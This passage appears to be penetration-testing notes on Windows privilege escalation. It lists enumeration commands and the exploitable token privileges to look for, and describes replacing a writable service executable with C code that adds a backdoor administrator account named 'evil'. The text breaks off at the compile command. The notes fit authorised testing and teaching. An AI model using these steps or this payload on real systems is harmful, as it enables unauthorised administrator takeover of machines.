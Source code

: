 #### System Information
Gather system details to identify exploitable vulnerabilities:
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
- Search for exploits: `searchsploit <os_version>` or Google.
- Additional details:
  ```bash
  systeminfo
  ```
  - Architecture, processor count, domain, hotfixes, system/input locale.
- Processor details:
  ```bash
  WMIC CPU Get DeviceID,NumberOfCores,NumberOfLogicalProcessors
  ```

#### Windows Privileges
Check for exploitable privileges:
```bash
whoami /priv
```
- Key privileges to look for:
  - SeDebugPrivilege
  - SeRestorePrivilege
  - SeBackupPrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - SeCreateTokenPrivilege
  - SeLoadDriverPrivilege
  - SeImpersonatePrivilege
  - SeAssignPrimaryTokenPrivilege
- Reference: `https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf`

#### User and Group Enumeration
List users and their groups:
```bash
net user
net user <username>
whoami /groups
```

#### Insecure File Permissions
Identify services with weak permissions:
```bash
tasklist /SVC > process.txt
# Or with PowerShell:
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```
Check file permissions:
```bash
icacls "<path>\<file.exe>"
```
- If the user has full access, replace the executable with a malicious one:
  ```c
  #include <stdlib.h>
  int main() {
      system("net user evil Ev!lpass /add");
      system("net localgroup administrators evil /add");
      return 0;
  }
  ```
  - Compile:
    ```bash
    i686-w64-mingw32-gcc adduser.c -o adduser.exe